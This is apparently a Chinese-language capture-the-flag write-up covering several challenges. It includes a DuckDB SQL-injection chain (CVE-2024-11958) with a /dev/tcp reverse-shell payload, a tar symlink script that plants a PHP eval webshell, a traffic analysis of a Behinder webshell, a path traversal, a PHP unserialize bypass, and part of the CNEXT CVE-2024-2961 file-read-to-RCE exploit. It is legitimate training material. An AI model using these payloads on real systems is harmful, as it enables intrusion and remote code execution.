

爆破一下用户名密码得到guest/guest

发现数据库  




根据报错得知是DuckDB，经搜索找到DuckDB存在SQL注入可能导致llama的RCE（CVE-2024-11958）。

参考:https://huntr.com/bounties/8ddf66e1-f74c-4d53-992b-76bc45cacac1

```
sql = f"""
        SELECT
            fts_main_{self._table_name}.match_bm25({self._node_id_column}, '{query}') AS score,
            {self._node_id_column}, {self._text_column}
        FROM {self._table_name}
        WHERE score IS NOT NULL
        ORDER BY score DESC
        LIMIT {self._similarity_top_k};
    """
```

DuckDB会根据上述 SQL 查询执行“使用字符串搜索”并“计算相关性得分”，该查询利用了 DuckDB 中的全文搜索 (FTS) 扩展。这段查询没有用预处理语句，存在 SQL 注入的风险 。通过安装 shellfs 扩展，就可以利用 SQL 注入实现远程代码执行。

在**{query}**处可以输入 life') AS score, node\_id, text FROM documents UNION SELECT '1500', '!', concat('life', version()) UNION SELECT concat('0 作为查询来闭合，最终SQL查询语句为：

```
sql = f"""
        SELECT
            fts_main_{self._table_name}.match_bm25({self._node_id_column}, 'life') AS score, node_id, text FROM documents UNION SELECT '1500', '!', concat('life', version()) UNION SELECT concat('0') AS score,
            {self._node_id_column}, {self._text_column}
        FROM {self._table_name}
        WHERE score IS NOT NULL
        ORDER BY score DESC
        LIMIT {self._similarity_top_k};
    """
```

'可以使用以下 payload 创建新文件（ `/tmp/exploit` ），该文件包含 shell 命令 `sh -i >& /dev/tcp/0.0.0.0/4444 0>&1` 。

```
test') as score, node_id, text from documents; COPY (SELECT 'sh -i >& /dev/tcp/0.
```

之后需要注入 SQL 语句来安装 shellfs 扩展，从而使用“shellfs”扩展来执行/tmp/exploit。由于 DuckDB 中的“shellfs”扩展允许 shell 命令的输入和输出，我们就可以直接反弹shell来getflag。

```
test') as score, node_id, text from documents; install shellfs from community; lo
```

VPS监听



直接getflag

# 数据安全

## RealCheckin-1

打开附件，发现是分析流量包，找到关键词：flag 结合提示发现文件flag.txt

追踪TCP流获得flag字符串（flagbase64特征:Zmxh）



Base64解码得到flag

## RealCheckIn-3

考点:冰蝎，base，RC4

下载附件进行分析大致看了眼



直接搜索http进行分析判断发现攻击者是从若依打进来的但是不怎么确定



接着往下看发现?cmd=1以及yaml-payloud进行查询判断确实是从若依打进来的

参考链接:

https://blog.csdn.net/weixin\_42628854/article/details/134037984



接着我们往下看发现?cmd=1追踪过去发现是冰蝎连接

尝试提取值进行解密，由于冰蝎连接的话可以尝试默认密钥进行解密发现成功





接着继续解密一眼base64发现得到密钥



继续分析发现类似密文



直接进行解密 由于前面RC密钥让我想起RC4直接进行解密



# Web

## 文曲签学

长按 fn 进入调试模式



#HELP,然后 read shards



可以 READ …//…//…//flag

但是没有东西，然后进行其他尝试

​

直到 READ ....//....//....//....//....//....//....//....//....//....//....//

得到flag



## EZ\_upload

典型的文件上传

文件上传后，页面返回php源码和文件上传路径



php源码中有exec函数，执行tar -xvf命令，将文件解压在/tmp目录下创造两个符号链接文件，分别指/var/www/html目录和一句话木马文件shell.php，使得可以在<https://eci-2ze610abmwonudga082t.cloudeci1.ichunqiu.com:80>，访问到一句话木马文件，连接webshell



分别依次上传symlink.tar和webshell.tar文件，使用哥斯拉连接<https://eci-2ze610abmwonudga082t.cloudeci1.ichunqiu.com:80/shell.php,>

成功连接webshell,查看服务器文件，找到flag



```
import os
import tarfile
from io import BytesIO

webshell_text = b' <? php eval($_POST["pass"]); ?>'
webshell_n = "shell.php"
target = '/var/www/html'
link_name = 'my_link'

with tarfile.open('symlink.tar', 'w') as tar:
    symink_info = tarfile.TarInfo(name=link_name)
    symink_info.type = tarfile.SYMTYPE
    symink_info.linkname = target
    tar.addfile(symink_info)

path_tar = os.path.join(link_name, webshell_n)

with tarfile.open('webshell.tar', 'w') as tar:
    file_info = tarfile.TarInfo(name=path_tar)
    file_info.size = len(webshell_text)
    tar.addfile(file_info, BytesIO(webshell_text))
```

## SeRce

源码：

```
<?php
  highlight_file(__FILE__);
$exp = $_GET["exp"];
if(isset($exp)){
  if(serialize(unserialize($exp)) != $exp){
    $data = file_get_contents($_POST['filetoread']);
    echo "File Contents: $data";
  }
}
```

第一个考点:

```
serialize(unserialize($exp)) != $exp
```

当我们尝试反序列化到一个不存在的类时, PHP 会使用 \_\_PHP\_Incomplete\_Class\_Name这个追加的字段来进行存储。

```
<?php
  $raw = 'O:1:"A":2:{s:1:"a";s:1:"b";s:27:"__PHP_Incomplete_Class_Name";s:1:"F";}';
$exp = 'O:1:"F":1:{s:1:"a";s:1:"b";}';
var_dump(serialize(unserialize($raw)) == $exp); // true
echo '<br>';
var_dump(unserialize($raw));
echo '<br>';
var_dump(serialize(unserialize($raw)));
```



当unserialize时，由于没找到定义的A类，所以将创建一个 \_\_PHP\_Incomplete\_Class 对象。

当serialize时：

1. 将 \_\_PHP\_Incomplete\_Class 对象中的 属性个数减一 并将其作为序列化文本中 对实际对象属性个数的描述值。
2. 将 \_\_PHP\_Incomplete\_Class 对象的 \_\_PHP\_Incomplete\_Class\_Name 作为序列化文本中 对象所属类的描述值。（类名变为F）
3. 将 \_\_PHP\_Incomplete\_Class对象的序列化文本中对 \_\_PHP\_Incomplete\_Class\_Name 属性的描述删去。若没有发现相关描述，则跳过此步。

所以构造exp参数

```
exp=O%3A1%3A%22A%22%3A2%3A%7Bs%3A1%3A%22a%22%3Bs%3A1%3A%22b%22%3Bs%3A27%3A%22__PHP_Incomplete_Class_Name%22%3Bs%3A1%3A%22F%22%3B%7D
```

之后post的fileread就可以直接文件包含读文件了。



能看到有个/tmp/start.sh，现在还不知道flag在哪，它支持filter伪协议，所以一下就想到了去年的文件包含转rce的漏洞（CVE-2024-2961），改一下脚本，Get传参exp，在POST中的filetoread执行poc.

```
#!/usr/bin/env python3
#
# CNEXT: PHP file-read to RCE (CVE-2024-2961)
# Date: 2024-05-27
# Author: Charles FOL @cfreal_ (LEXFO/AMBIONICS)
#
# TODO Parse LIBC to know if patched
#
# INFORMATIONS
#
# To use, implement the Remote class, which tells the exploit how to send the payload.
#

from __future__ import annotations

import base64 as pybase64
import zlib
from urllib.parse import quote_plus
from dataclasses import dataclass
from requests.exceptions import ConnectionError, ChunkedEncodingError

from pwn import *
from ten import *


HEAP_SIZE = 2 * 1024 * 1024
BUG = "劄".encode("utf-8")


class Remote:
    """Helper class to send the payload and download files."""

    def __init__(self, url: str) -> None:
        self.url = url
        self.session = Session()

    def send(self, path: str) -> Response:
        """Sends given `path` to the HTTP server with original payload."""
        exp_payload = 'O:1:"A":2:{s:1:"a";s:1:"b";s:27:"__PHP_Incomplete_Class_Name";s:1:"F";}'
        params = {"exp": exp_payload}  # GET 参数

        data = {"filetoread": path}  # POST 参数 filetoread

        response = self.session.post(self.url, params=params, data=data)
        return response

    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file."""
        path = f"php://filter/convert.base64-encode/resource={path}"
        response = self.send(path)
        print("[*] Response text:", response.text)  # 调试输出

        match = re.search(r"File Contents: (.*)", response.text, flags=re.S)
        if not match:
            raise ValueError("Failed to find file content in response")

        data = match.group(1).strip()
        return pybase64.b64decode(data)
```

var目录写不了文件，最后尝试tmp目录下可写，先把ls /写入发现存在readflag，执行得到最终flag.

```
python cnext-exploit.py https://eci-2zeif40svfvrw9l3dgfs.cloudeci1.ichunqiu.com:80/ "/readflag > /tmp/b.txt"
```


